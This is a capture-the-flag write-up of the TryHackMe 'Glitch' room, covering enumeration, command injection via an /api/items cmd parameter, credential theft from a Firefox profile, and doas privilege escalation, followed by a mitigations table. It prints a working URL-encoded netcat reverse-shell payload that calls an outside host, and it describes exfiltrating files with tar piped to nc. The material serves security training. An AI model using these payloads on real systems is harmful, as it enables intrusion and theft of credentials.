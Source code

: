 [GLITCH](https://tryhackme.com/room/glitch)

**Date:** [23/05/2025]  
**Difficulty:** [Easy]  
**Objective:** [Exploit a vulnerable web application, extract stored credentials, escalate privileges, and gain root access on the target machine.]

---

## Table of Contents

- [1. Summary](#1-summary)
- [2. Methodology](#2-methodology)
- [3. Reconnaissance](#3-reconnaissance)
- [4. Enumeration](#4-enumeration)
- [5. Exploitation](#5-exploitation)
- [6. Privilege Escalation](#6-privilege-escalation)
- [7. Post Exploitation](#7-post-exploitation)
- [8. Flags / Proof](#8-flags--proof)
- [9. Mitigations](#9-mitigations)
- [10. Notes](#10-notes)

---

## 1. Summary

**IP/URL:** [10.10.230.208 ]  
**Service/Ports:** [80/HTTP]  
**Entry Point:** [Web token in localStorage and /api/items injection]  
**Privilege Escalation:** [Credential reuse via Firefox profile + doas misconfiguration]  
**Outcome:** [Root shell obtained, flags captured]  

---

## 2. Methodology

Following the PTES (Penetration Testing Execution Standard):
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance

## Active
```
nmap -sS -sV 10.10.230.208 
```
```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
----

## 4. Enumeration
    Web: gobuster, wfuzz

    Commands:
    ```
    wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hc 404,400 http://10.10.162.38/api/items\?FUZZ\=1
    gobuster dir -u http://10.10.230.208 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

    
Findings:
```
    /img                  (Status: 301) [Size: 173] [--> /img/]
    /js                   (Status: 301) [Size: 171] [--> /js/]
    /secret               (Status: 200) [Size: 724]
```
```
    ID           Response   Lines    Word       Chars       Payload                                                                          
=====================================================================

000002370:   200        0 L      2 W        25 Ch       "cmd"    

```


/secret revealed when setting a custom token cookie value

JavaScript exposed /api/items and structure of app
cmd parameter injectable


----

## 5. Exploitation

    Parameter injection in /api/items?cmd=

    Tools: Burp Suite

    Commands:
 
    POST /api/items?cmd=require("child_process").exec("rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E21%2E157%2E185%204444%20%3E%2Ftmp%2Ff") HTTP/1.1

    Reverse shell received as user

----

## 6. Privilege Escalation

    
Method: 

Stole Firefox profile via tar | nc
Extracted passwords using firefox_decrypt.py


Tool Used: LinPEAS

Commands:
 ```
   Find / -perm -4000 2>/dev/null
   doas -u root /bin/bash
```

Escalated To: root

----

## 7. Post Exploitation

    User switch: user → v0id → root

    Found and read /root/flag.txt

    Firefox config showed .bash_history redirected to /dev/null (intentional hiding)

----

## 8. Flags / Proof

    User Flag: THM{user_flag_here}

    Root Flag: THM{root_flag_here}

    Other Credentials / Loot:

        Username: v0id

        Password: (extracted)

----

## 9. Mitigations

| Vulnerability              | Risk   | Suggested Mitigation                                    |
|----------------------------|--------|---------------------------------------------------------|
| Token-based access control | High   | Use proper session management and token validation      |
| Command injection via API  | High   | Sanitize and validate all user input                    |
| Firefox credential leakage | High   | Disable password saving, encrypt profiles               |
| doas misconfiguration      | High   | Restrict usage to authorized users only                 |

----

## 10. Notes

    Time spent: [e.g., 2 hours]

    Tools used: nmap, gobuster, sqlmap, linpeas, Burp Suite, etc.

    Lessons learned:
    Firefox profiles can be goldmines of credentials

    Always check for custom JS logic in CTF web apps

    doas is just as dangerous as sudo when misconfigured

    Tar + netcat = simple and powerful file exfil method
